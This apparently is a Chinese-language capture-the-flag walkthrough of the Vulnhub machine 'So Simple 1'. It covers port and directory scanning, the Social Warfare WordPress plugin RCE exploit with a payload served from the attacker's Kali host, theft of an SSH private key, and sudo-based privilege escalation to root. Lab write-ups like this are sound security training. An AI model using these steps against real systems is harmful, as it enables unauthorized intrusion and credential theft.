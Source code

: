 ```yaml
---

title: Vulnhub	515 SO SIMPLE-1
date: 2020-07-17
---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/so-simple-1,515/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| SIMPLE-1   | 10.0.2.30 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.30
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### WEB测试

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.30                    
[05:09:36] 200 -   13KB - /wordpress/ 
[05:09:36] 200 -    5KB - /wordpress/wp-login.php
```

看来是搞wordpress了

### 漏洞发现

```bash
$ wpscan --url http://10.0.2.30/wordpress/ --api-token ******************************************* 
```

![1](https://static.iihack.com/vulnhub/515/1.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

![2](https://static.iihack.com/vulnhub/515/2.jpg)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)



```bash
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![4](https://static.iihack.com/vulnhub/515/4.jpg)

### 获得id_rsa

发现`/home/max/.ssh/`目录可访问，下载id_rsa文件成功

ssh远程访问成功

![5](https://static.iihack.com/vulnhub/515/5.jpg)

## 提权

可免密执行`service`，[GTFOBins](https://gtfobins.github.io/gtfobins/service/)一把梭

![6](https://static.iihack.com/vulnhub/515/6.jpg)

成功切换用户

继续查看`sudo -l`，发现可免密执行`/opt/tools/server-health.sh`，但是这个文件不存在，只好自己新建写入了，运行获得root

![7](https://static.iihack.com/vulnhub/515/7.jpg)
